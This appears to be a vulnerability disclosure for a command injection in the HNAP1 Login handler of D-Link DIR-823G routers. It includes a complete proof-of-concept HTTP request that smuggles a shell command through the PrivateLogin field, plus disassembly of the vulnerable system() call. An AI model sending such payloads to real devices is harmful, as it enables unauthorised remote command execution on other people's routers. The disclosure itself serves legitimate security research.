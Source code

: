 # DIR-823G Command inject in HNAP #

DIR-823G
An issue was discovered on D-Link DIR-823G devices with firmware V1.0.2B05. There is a command injection in HNAP1  via shell metacharacters in the PrivateLogin field to Login.
## Vulnerable Firmware Versions ##
** DIR-823G REVA1 1.02B05(Lastest) **

## Analysis ##
**Command injection in HNAP1 Login**

Bypass the check of "PrivateLogin" by modifying in HTTP Message.

**payload:**

    POST /HNAP1/ HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5 
    Accept-Encoding: gzip, deflate
    Content-Type: text/xml; charset=utf-8
    SOAPAction: "http://purenetworks.com/HNAP1/Login"
    Content-Length: 597
    X-Requested-With: XMLHttpRequest
    Content-Length: 453
    Origin: http://192.168.0.1
    Connection: close
    Referer: http://192.168.0.1/Login.html

    <?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha><PrivateLogin>'`ls>/web_mtn/test.txt`'</PrivateLogin></Login></soap:Body></soap:Envelope>

![test.png](https://i.loli.net/2020/09/06/Ka13cRxJPU2zoqr.png)

**Vulnerability Description**

This occurs in /bin/goahead when a HNAP API function trigger a call to the system function with untrusted input form the request body.A attacker can execute any command remotely when they control this input.


    la  $v0, aEchoSVarHnaplo  # "echo '%s' >/var/hnaplog"
    addiu   $v1, $fp, 0x1448+var_1390
    move $a0, $v1 A
    li  $a1, 0x1387
    move $a2, $v0
    lw  $a3, 0x1448+arg_18($fp)
    jal snprintf
    nop
    addiu   $v0, $fp, 0x1448+var_1390
    move $a0, $v0 
    jal system


